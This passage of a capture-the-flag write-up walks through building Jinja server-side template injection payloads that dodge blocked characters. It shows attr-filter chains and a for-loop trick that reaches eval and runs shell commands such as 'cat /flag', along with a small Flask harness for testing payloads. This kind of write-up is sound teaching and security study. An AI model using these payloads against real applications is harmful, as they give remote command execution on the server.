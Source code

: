 ```python
{{ getattr(getattr(getattr(getattr(getattr(getattr(self, "__init__"), "__globals__"), "__builtins__"), "__import__")('os'), "popen")('ls'), "read")() }}
{{ ((((((((self|attr("__init__"))|attr("__globals__"))|attr("__builtins__"))|attr("__import__"))('os'))|attr("popen"))("ls"))|attr("read"))() }}
```
Figure 15: *two possible variants of my ninja1 payloads which avoid the blocked characters.*

First I tried just modifying my ninja1 payload to use two different ways of replacing
the member accesses (Figure 15). I knew about the first method already, but it didn't work because
`getattr` is only available in Python and not Jinja. I found out about the second method
(using the `attr` filter) by reading through [Jinja's list of builtin filters](https://jinja.palletsprojects.com/en/3.0.x/templates/#builtin-filters).
The second method also didn't work (it showed up empty in the dev page) so I tried slowly removing
layers of member accesses until I got something that worked. I found that I could get
accessing `self.__init__.__globals__.__builtins__` to work, but if I tried to access
any of its members I got back nothing. At this point I spun up a script to allow me
to test Jinja payloads locally. This was super valuable because I could
get a lot of important information from the error messages.

```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route("/")
def index():
    template = """
    your_payload_goes_here
    """
    return render_template_string(template)

app.run("0.0.0.0", port=8091)
```
Figure 16: *a crude setup for testing Jinja payloads.*

To use the test script simply modify the value of the `template` variable, run the script,
and visit `http://localhost:8091/`. You'll need to re-run the script every time that you edit the template since
Flask won't auto re-run on file change (but if I remember correctly you may able to achieve
such behaviour by using the `flask` cli to run the script).

While trying to find alternative ways to access members of the `__builtins__` object I
realised that I could possibly use Jinja's
for loop block to iterate over the key-value pairs of `__builtins__` and use an `if`
block to single out the value that I was interested in. It worked! I'm not entirely sure
why I ended up going with using `eval` to run the `os.popen` phase of the payload,
but it was likely just the result of trying out a bunch of options until one worked.

```python
{% for k, val in (((self|attr("__init__"))|attr("__globals__"))|attr("items"))() %}
  {% if k == "__builtins__" %}
    {% for k2, val2 in (val|attr("items"))() %}
      {% if k2 == "eval" %}
        {{val2("getattr(getattr(__import__('os'), 'popen')('cat /flag'), 'read')()")}}<br />
      {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
Figure 17: *the final payload (with line breaks and indentation added for readability).*
